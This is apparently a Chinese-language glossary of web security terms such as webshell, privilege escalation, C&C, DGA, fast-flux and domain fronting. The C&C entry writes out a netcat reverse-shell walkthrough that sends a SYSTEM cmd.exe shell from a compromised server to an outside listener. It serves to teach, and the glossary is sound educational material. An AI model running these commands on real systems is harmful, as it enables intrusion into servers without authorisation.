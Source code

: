 Web 安全术语
================================

后门
--------------------------------
绕过安全控制而获取对程序或系统访问权的方法。后门的最主要目的就是方便以后再次秘密进入或者控制系统。

Webshell
--------------------------------
Webshell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称作为一种网页后门。

0day漏洞
--------------------------------
通常是指还没有补丁的漏洞。也就是说官方还没有发现或者是发现了还没有开发出安全补丁的漏洞。

Exploit
--------------------------------
简称 exp，漏洞利用。

提权
--------------------------------
提高自己在服务器中的权限，主要针对网站入侵过程中，当入侵某一网站时，通过各种漏洞提升 Webshell 权限以夺得该服务器权限。

跳板
--------------------------------
跳板，简单来说，就是在进行攻击或渗透时，不直接发起，而是控制一台中间主机来进行。这台中间主机就成为跳板。

拖库
--------------------------------
网站遭到入侵后，黑客窃取其数据库。

社会工程学
--------------------------------
一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段取得自身利益的手法，已成迅速上升甚至滥用的趋势。

Apt 攻击
--------------------------------
高级持续性威胁。 利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。

CC 
--------------------------------
CC = Challenge Collapsar，意为“挑战黑洞”，其前身名为Fatboy攻击，是利用不断对网站发送连接请求致使形成拒绝服务的目的。

C&C
--------------------------------
C&C服务器全称是 Command and Control Server，翻译过来就是命令和控制服务器.通常在做渗透测试的时候，在拿到一个 webshell的时候，需要对服务器进行提权操作，如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令。而有的 exp溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，这里用 nc 在本地执行：nc -vv -lp 3333.上述命令的意思是在本地监听一个 3333 端口等待连接，假设电脑 IP 是公网的，并且 IP 为 114.114.114.114，然后在目标服务器就可以执行：nc 114.114.114.114 3333 -e cmd.exe.
上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，这时你就可以通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回，这时本机电脑就是一个简易的 C&C 服务器。

DGA
---------------------------------
DGA域名生成算法经常被用作恶意软件连接C2中控。在早期的僵尸网络中，控制者通常会把C&C服务器的域名或者IP地址硬编码到恶意程序中，僵尸主机通过这些信息定时访问C&C主机获取命令。但同时安全人员也能够通过逆向恶意程序，得到C&C服务器的域名或者IP，利用这些信息定位C&C主机，安全人员就可以隔断C&C主机从而破坏僵尸网络。恶意软件定期使用DGA算法生成为随机域名，有效绕过黑名单检测，尝试连接，寻找C2中控。如果一个生成的域名无法连接，便生成下一个DGA为随机域名进行连接尝试。IP被阻断C2换一个域名可以继续操作。大多数dga域名在互联网环境是访问不到的，为什么？因为没有注册，黑客可以在软件中会写多个dga域名，在确认使用攻击时注册若干个，然后中招的机器接入互联网就可以与dga域名进行通信了。

Fast-flux
---------------------------------
在正常的DNS服务器中，用户对同一个域名做DNS查询，在较长的一段时间内，无论查询多少次返回的结果基本上是不会改变的。Fast-flux技术是指不断改变域名和IP地址映射关系的一种技术，也就是说在短时间内查询使用Fast-flux技术部署的域名，会得到不同的结果.
 | 客户端两次访问www.example.com的过程如下：
 | 1)为了得到网站www.example.com的IP地址，客户端发起DNS查询。
 | 2)随后DNS服务器返回了一个IP地址1.2.3.4，同时TTL为一个很小的数值。
 | 3)客户端访问IP为1.2.3.4的服务器获取内容。
 | 4)IP为1.2.3.4的服务器响应请求，返回相应内容。
 | 5)客户端再次访问www.example.com，由于TTL过小，本地缓存的DNS记录失效，客户端需要再次向DNS服务器获取新的IP地址。
 | 6)此次DNS服务器返回了IP 4.3.2.1，这次的TTL仍然很小。
 | 7)客户端访问IP为4.3.2.1的服务器获取内容。
 | 8)IP为4.3.2.1的服务器响应请求，返回相应内容。

POC
---------------------------------
即Proof of Concept，漏洞验证程序，功能为检测漏洞是否存在。poc和exp(全称Exploit)的区别就是，poc是漏洞验证程序，exp是漏洞利用程序。

通用型漏洞
---------------------------------
有一定使用量或者说是用户量的第三方框架、软件、应用、系统等对应的漏洞，拿web层应用来说需要满足：
	- 两个站点以上使用了该应用，可参考cnvd（国家信息安全漏洞共享平台）的漏洞；
	- 路径固定、参数固定。

域前置
---------------------------------
Domain Fronting，中文译名 “域前置” 或 “域名前置”，用于隐藏服务器真实ip并伪装成高信誉域名与目标通讯，来规避IDS的流量检测和审计，Domain Fronting 的核心技术是 CDN。

url#锚点
---------------------------------
在url种第一个#后面出现的任何字符，都会被浏览器解读为位置标识符。这意味着，这些字符都不会被发送到服务器端，#是用来指导浏览器动作的。

Wildcard Domain
---------------------------------
- 泛域名Wildcard Domain是一种特殊的域名形式。它使用星号作为域名的一级。例如*.baidu.com。
- 在域名解析中，一个泛域名对应一个IP地址。如aidu.com和tax.baidu.com都会解析到同一个IP地址。
- 使用泛域名，可以让域名支持无限的子域名。
- 在信息搜集中，渗透测试人员经常需要暴力扫子域名。如果域名持有者开启泛域名解析，可能造成子域名扫描失败。所以，在暴力扫描之前，可以先解析一个不可能使用的子域名来判断是否可以解析，如域名 adbp15rub.baidu.com。
